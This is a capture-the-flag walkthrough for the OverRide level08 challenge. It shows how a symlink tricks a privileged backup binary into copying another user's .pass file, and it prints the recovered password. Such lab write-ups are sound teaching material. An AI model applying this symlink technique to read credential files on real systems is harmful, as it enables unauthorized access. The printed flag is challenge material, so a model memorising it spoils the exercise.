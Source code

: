 This binary will take a file as an argument, write a copy to a directory called "backups", and write the status in a .log file inside this directory :

    level08@OverRide:~$ echo "hello world" > bbbb
    level08@OverRide:~$ ./level08 bbbb
    level08@OverRide:~$ cat backups/bbbb 
    hello world
    level08@OverRide:~$ cat backups/.log 
    LOG: Starting back up: bbbb
    LOG: Finished back up bbbb

What if we try with the level09 password file ?

    level08@OverRide:~$ ./level08 "../level09/.pass"
    ERROR: Failed to open ./backups/../level09/.pass

It seems we successfuly opened the password file, but the issue lies in how the backup is being done. Using relative paths seems to mess it up. Let's try with absolute paths :

level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

It seems the directories are at fault here. If we could get rid of them, the thing should work. That's when symlinks come in handy :

level08@OverRide:~$ ln -s ../level09/.pass exploit
level08@OverRide:~$ ./level08 exploit
level08@OverRide:~$ cat backups/exploit 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
